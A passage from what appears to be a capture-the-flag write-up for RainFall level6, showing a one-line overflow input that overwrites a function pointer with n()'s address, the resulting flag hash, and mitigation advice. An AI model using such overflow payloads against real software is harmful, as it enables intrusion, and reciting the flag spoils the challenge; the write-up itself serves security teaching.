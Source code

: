 Yay! Now the address we injected has replaced the m address.

## Gaining Access
Exploit the vulnerability by crafting input to overwrite the function pointer with `n()`'s address:
```bash0x0804845
level6@RainFall:~$ ./level6 `python2 -c "print 'A'*72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Mitigation Strategies
To secure this binary, the following steps should be taken:
1. **Bounds checking**: Replace `strcpy()` with `strncpy()` to prevent buffer overflows.
2. **Enable stack canaries**: Protect function return addresses from being overwritten.
3. **Use DEP (NX enabled)**: Prevent execution of injected shellcode.
4. **Remove SUID/SGID bits**: Reduce privilege escalation risks.

## Conclusion
This level demonstrates a classic buffer overflow attack exploiting function pointer overwrites. The key takeaway is that improper memory management can lead to severe security vulnerabilities. Proper validation, secure coding practices, and modern security mechanisms should always be used to mitigate such risks.


